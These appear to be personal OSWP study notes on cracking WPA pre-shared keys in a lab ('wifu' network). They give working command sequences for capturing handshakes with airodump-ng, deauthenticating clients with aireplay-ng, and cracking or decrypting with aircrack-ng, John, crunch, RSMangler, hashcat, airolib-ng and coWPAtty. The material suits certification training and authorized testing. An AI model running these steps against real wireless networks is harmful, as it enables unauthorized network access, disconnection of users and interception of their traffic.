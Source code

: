 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/4-psk-cracking/"}
---
```


------------
### Crack walkthrough:
1. Sniff nearby APs:
```
sudo airodump-ng wlan0mon
```
2. Tune dump with channel and SSIDs:
```
sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
```
3. Start deauth:
```
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
```
- If not captures handshake try without "-c"
4. Crack handshake:
```
aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap
```
5. Decrypt traffic:
```
airdecap-ng -b 34:08:04:09:3D:38 -e wifu -p 12345678 wpa-01.cap
```

---
### John cracking:
```
john --wordlist=/usr/share/john/password.lst --rules --stdout | aircrack-ng -e wifu -w - ~/wpa-01.cap
```

----------------
### Crunch:
- Generate password lists
- Usage:
```
crunch <minlength> <maxlength> <characters> -t <pattern> -p <words>
```
- Example:
```
crunch 11 11 0123456789 -t password@@@
-
Crunch will now generate the following number of lines: 1000
password000
password001
password002
password003
```
- Example 2:
```
crunch 5 5 -t ddd% | aircrack-ng -e wifu crunch-01.cap -w -
```

--------
### RSMangler
- Ruby script for modifying wordlists in all ways
- Usage:
```
rsmangler --file wordlist.txt --min 12 --max 13 --output mangled.txt
```
Use with aircrack:
```
rsmangler --file wordlist.txt --min 12 --max 13 | aircrack-ng -e wifu rsmangler-01.cap -w -
```

-----
### Hashcat
- List cracking devices:
```
hashcat -I
```
- Run benchmark for mode:
```
hashcat -b -m <mode>
```
- Specify device:
```
hashcat -d <device-nr>
```
- Specify device type (CPU, GPU, FPGSA, DSP etc.):
```
hashcat -D <device-type>
```
- Convert .cap to hashcat-compatible:
```
/usr/lib/hashcat-utils/cap2hccapx.bin wifu-01.cap output.hccapx  
```
- Crack the hash:
```
hashcat -m 2500 output.hccapx /usr/share/john/password.lst  
```

------------
### Airolib-ng
- Tool to pre-generate PMKs which lets aircrack-ng check more than 50000 hashes/second
- Usage:
1. Create file containing ESSID of target AP:
```
echo wifu > essid.txt
```
2. Import ESSID into database:
```
airolib-ng <db-name>.sqlite --import essid essid.txt
```
3. List info about DB:
```
airolib-ng <db-name>.sqlite --stats
```
4. Import passwords to DB:
```
airolib-ng <db-name>.sqlite --import passwd /usr/share/john/password.lst
```
5. Process DB and generate PMKs:
```
airolib-ng <db-name>.sqlite --batch
```
6. Initiate crack:
```
aircrack-ng -r <db-name>.sqlite wpa1-01.cap
```

---------
### coWPAtty:
- Similar to airolib-ng, creates rainbow tables for ESSIDs
- Usage:
1. Generate table:
```
genpmk -f /usr/share/john/password.lst -d <outfile> -s <essid>
```
2. Crack with coWPAtty:
```
cowpatty -r wpajohn-01.cap -d <outfile> -s wifu
```

